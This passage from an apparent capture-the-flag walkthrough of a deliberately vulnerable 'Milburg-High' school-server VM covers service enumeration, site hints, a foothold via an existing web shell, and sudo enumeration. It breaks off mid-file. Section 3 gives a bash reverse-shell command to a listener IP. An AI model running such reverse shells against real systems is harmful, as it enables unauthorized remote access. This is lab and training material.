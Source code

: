 ```bash
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 10 02:00:58 2021 -- 1 IP address (1 host up) scanned in 14.92 seconds
```
The machine is running ProFTPd 1.3.5b, an Apache HTTP server and SSH on a high port.

### 2. Enumeration
Didn't need to do any dirbusting this time, there is a webshell already available at the /dev_shell.php page. Before going there check out some other parts of the school website. The login.html page is disabled due to a previous breach but has the following comment in the source:
```html
<!-- If you are the new IT staff I have sent a letter to you about a web shell you can use
    -Bob
   -->
```

Also in robots.txt there is a passwords.html with the following content:  
  
*Really who made this file at least get a hash of your password to display,  hackers can't do anything with a hash, this is probably why we had a security  breach in the first place. Comeon  people this is basic 101 security! I have moved the file off the server. Don't make me have to clean up the mess everytime  someone does something as stupid as this. We will have a meeting about this and other  stuff I found on the server. >:( -Bob*
  
### 3. Get a shell
Spawn a shell within a listener by going to the /dev_shell.php page and running `bash -c "bash -i >& /dev/tcp/192.168.34.138/9999 0>&1"`
```bash
www-data@Milburg-High:/var/www/html$ whoami
www-data
```

### 4. Enumerate from foothold
```bash
www-data@Milburg-High:/var/www/html$ sudo -l 
Matching Defaults entries for www-data on Milburg-High:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on Milburg-High:
    (ALL) NOPASSWD: /usr/bin/service apache2 *
    (root) NOPASSWD: /bin/systemctl start ssh

www-data@Milburg-High:/var/www/html$ sudo /bin/systemctl start ssh
sudo /bin/systemctl start ssh
```

SSH can be started from this user - but I never end up actually using it, just use su to get between users. All user home folders are readable, some the elliot user has an angry text file in his.
```bash
www-data@Milburg-High:/home$ cat elliot/theadminisdumb.txt
The admin is dumb,
In fact everyone in the IT dept is pretty bad but I can’t blame all of them the newbies Sebastian and James are quite new to 
managing a server so I can forgive them for that password file they made on the server. But the admin now he’s quite something.
Thinks he knows more than everyone else in the dept, he always yells at Sebastian and James now they do some dumb stuff but 
their new and this is just a high-school server who cares, the only people that would try and hack into this are script kiddies. 
His wallpaper policy also is redundant, why do we need custom wallpapers that doesn’t do anything. I have been suggesting time
and time again to Bob ways we could improve the security since he “cares” about it so much but he just yells at me and says I 
```